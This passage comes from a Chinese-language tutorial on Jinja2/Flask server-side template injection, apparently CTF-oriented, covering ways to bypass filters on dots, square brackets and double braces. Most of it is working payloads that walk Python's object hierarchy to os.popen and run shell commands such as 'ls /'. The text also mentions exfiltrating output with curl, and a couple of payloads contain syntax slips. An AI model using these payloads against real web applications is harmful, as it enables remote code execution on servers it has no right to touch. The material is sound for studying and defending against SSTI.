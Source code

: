 #### **利用中括号\[ \]绕过**

中括号直接拼接就可以，不需要用到`.`

如下示例：

```python
{{''['__class__']['__bases__'][0]['__subclasses__']()[59]['__init__']['__globals__']['__builtins__']['eval']('__import__("os").popen("ls").read()')}}
```

等同于：

```python
{{().__class__.__bases__.[0].__subclasses__().[59].__init__['__globals__']['__builtins__'].eval('__import__("os").popen("ls /").read()')}}
```

**同时，我们可以发现,这样绕过点之后，我们几乎所有的关键字都成了字符串，我们就可以用上面的一些方法绕过了，比如hex编码，这样我们几乎可以绕过全部的过滤。**

### 过滤了大括号 `{{`

有时候也是str\_replace把双大括号换掉或者把大括号换掉，思路不能太死板。

我们可以用Jinja2的 `{%...%}` 语句装载一个循环控制语句来绕过，这里我们在一开始认识flask的时候就学习了：

```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}{% endif %}{% endfor %}
```

也可以使用 `{% if ... %}1{% endif %}` 配合 `os.popen` 和 `curl` 将执行结果外带（不外带的话无回显）出来：

```python
{% if ''.__class__.__base__.__subclasses__()[59].__init__.func_globals.linecache.os.popen('ls /' %}1{% endif %}
```

也可以用 `{%print(......)%}` 的形式来代替`{{ }}`，如下：

```python
{%print(''.__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls').read())%}
```

组合Bypass
--------

### 同时过滤了 . 和 \[\]

`|attr()`+`__getitem__`

绕过姿势：

```python
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls")|attr("read")()}}
```

等同于：
